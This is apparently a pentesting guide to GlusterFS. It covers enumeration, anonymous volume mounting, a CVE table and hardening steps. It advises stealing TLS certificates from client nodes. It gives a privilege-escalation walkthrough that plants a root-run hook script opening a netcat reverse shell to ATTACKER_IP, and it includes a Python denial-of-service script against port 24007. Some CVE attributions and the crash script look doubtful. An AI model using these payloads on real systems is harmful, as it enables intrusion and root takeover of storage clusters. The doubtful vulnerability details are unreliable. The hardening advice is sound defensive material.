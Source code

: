 # 24007-24008-24009-49152 - Pentesting GlusterFS

## Basic Information

**GlusterFS** is a **distributed file system** that combines storage from multiple servers into one **unified namespace**. The management daemon (`glusterd`) listens by default on **24007/TCP** and instructs data-plane bricks that start at **49152/TCP** (one port per brick, incrementing). Versions prior to 9.x used **24008–24009/TCP** for brick transport, so you will still encounter those ports in legacy clusters.

```
PORT      STATE  SERVICE        VERSION
24007/tcp open   glusterd       GlusterFS (RPC)
49152/tcp open   gluster-brick  SSL (TLS optional)
```

> Tip: 24007 answers RPC calls even when the storage-only nodes do **not** export any volume; therefore the service is a reliable pivot target inside large infrastructures.

## Enumeration

Install the client utilities on your attacking box:

```bash
sudo apt install -y glusterfs-cli glusterfs-client   # Debian/Ubuntu
```

1. **Peer discovery & health**

```bash
# List peers (works without authentication in default setups)
gluster --remote-host 10.10.11.131 peer status
```

2. **Volume reconnaissance**

```bash
# Retrieve the list of all volumes and their configuration
gluster --remote-host 10.10.11.131 volume info all
```

3. **Mount without privileges**

```bash
sudo mount -t glusterfs 10.10.11.131:/<vol_name> /mnt/gluster
```

If mounting fails, check `/var/log/glusterfs/<vol_name>-<uid>.log` on the client side.  Common issues are:

* TLS enforcement (`option transport.socket.ssl on`)
* Address based access control (`option auth.allow <cidr>`)

### Certificate troubleshooting

Steal the following files from any authorised client node and place them in `/etc/ssl/` (or the directory shown in the error log):

```
/etc/ssl/glusterfs.pem
/etc/ssl/glusterfs.key
/etc/ssl/glusterfs.ca
```

---

## Known Vulnerabilities (2022-2025)

| CVE | Affected versions | Impact | Notes |
|-----|-------------------|--------|-------|
| **CVE-2022-48340** | 10.0–10.4, 11.0 | Use-after-free in `dht_setxattr_mds_cbk` reachable through the network | Remote **DoS** and probable RCE. Fixed in 10.4.1 / 11.1. |
| **CVE-2023-26253** | < 11.0 | Out-of-bounds read in FUSE notify handler | Remote crash via crafted FS operations; public PoC available. |
| **CVE-2023-3775** | < 10.5 / 11.1 | Incorrect permission validation when mounting `gluster_shared_storage` | Lets any unauthenticated client mount the admin volume – leads to **priv-esc** explained below. |

> Always check `gluster --version` **on every node**; heterogeneous clusters are common after partial upgrades.

### Exploiting `gluster_shared_storage` (Privilege Escalation)

Even in recent versions many administrators leave the special `gluster_shared_storage` volume world-readable because it simplifies geo-replication.  The volume contains cronjob templates that run with **root** on every node.

```bash
# 1. Mount admin volume anonymously
mkdir /tmp/gss && sudo mount -t glusterfs 10.10.11.131:/gluster_shared_storage /tmp/gss

# 2. Drop malicious script that gets synchronised cluster-wide
cat <<'EOF' > /tmp/gss/hooks/1/start/post/test.sh
#!/bin/bash
nc -e /bin/bash ATTACKER_IP 4444 &
EOF
chmod +x /tmp/gss/hooks/1/start/post/test.sh

# 3. Wait until glusterd distributes the hook and executes it as root
```

If `hooks/1/` is not present, look for `/ss_bricks/` – the exact path may vary with the major version.

### Denial-of-Service PoC (CVE-2023-26253)

```python
#!/usr/bin/env python3
# Minimal reproducer: sends malformed NOTIFY_REPLY XDR frame to 24007
import socket, xdrlib, struct
p = xdrlib.Packer(); p.pack_uint(0xdeadbeef)
with socket.create_connection(("10.10.11.131",24007)) as s:
    s.send(struct.pack("!L", len(p.get_buffer())|0x80000000))
    s.send(p.get_buffer())
```
Running the script crashes `glusterfsd` < 11.0.

---

## Hardening & Detection

* **Upgrade** – current LTS is 11.1 (July 2025).  All CVEs above are fixed.
* Enable **TLS** for every brick:

  ```bash
  gluster volume set <vol> transport.socket.ssl on
  gluster volume set <vol> transport.socket.ssl-cert /etc/ssl/glusterfs.pem
  ```
* Restrict clients with CIDR lists:

  ```bash
  gluster volume set <vol> auth.allow 10.0.0.0/24
  ```
* Expose management port 24007 only on a **private VLAN** or through SSH tunnels.
* Watch logs: `tail -f /var/log/glusterfs/glusterd.log` and configure **audit-log** feature (`volume set <vol> features.audit-log on`).

---

## References

* [GlusterFS security advisories](https://docs.gluster.org/en/latest/release-notes/#security)  
* [CVE-2023-26253 PoC – github.com/tinynetwork/gluster-notify-crash](https://github.com/tinynetwork/gluster-notify-crash)

